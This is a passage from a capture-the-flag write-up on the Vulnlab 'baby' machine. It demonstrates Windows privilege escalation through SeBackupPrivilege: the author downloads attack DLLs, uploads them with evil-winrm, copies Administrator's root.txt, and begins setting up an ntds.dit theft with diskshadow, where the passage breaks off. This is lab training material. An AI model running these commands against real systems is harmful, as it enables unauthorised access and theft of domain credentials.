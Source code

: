 First lets download the relevant files required to our local machine.

```bash
wget https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll?raw=true
wget https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll?raw=true
```

Now we can upload these easily through evil-winrm.

```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> upload www/SeBackupPrivilegeCmdLets.dll
                                        
Info: Uploading /home/kali/Documents/vulnlab/baby/www/SeBackupPrivilegeCmdLets.dll to C:\Users\Caroline.Robinson\Desktop\SeBackupPrivilegeCmdLets.dll
                                        
Data: 16384 bytes of 16384 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> upload www/SeBackupPrivilegeUtils.dll
                                        
Info: Uploading /home/kali/Documents/vulnlab/baby/www/SeBackupPrivilegeUtils.dll to C:\Users\Caroline.Robinson\Desktop\SeBackupPrivilegeUtils.dll
                                        
Data: 21844 bytes of 21844 bytes copied
                                        
Info: Upload successful!

```

We now need to import the modules into our powershell session.

```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> Import-Module .\SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> Import-Module .\SeBackupPrivilegeCmdLets.dll
```

Now we can just backup the root.txt file to our Desktop and read the flag.

```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> Copy-FileSeBackupPrivilege /Users/Administrator/Desktop/root.txt root.txt
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> dir

*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> more root.txt
<REDACTED>
```

Lets now explore the more realistic approach and get direct access as Administrator. 

## ntds.dit give me your secrets

We are going to use a combination of the tools `diskshadow` and `robocopy` to get a copy of the `ntds.dit` file from the Windows environment.  First of all on our local machine, lets create a backup.txt file containing the following.
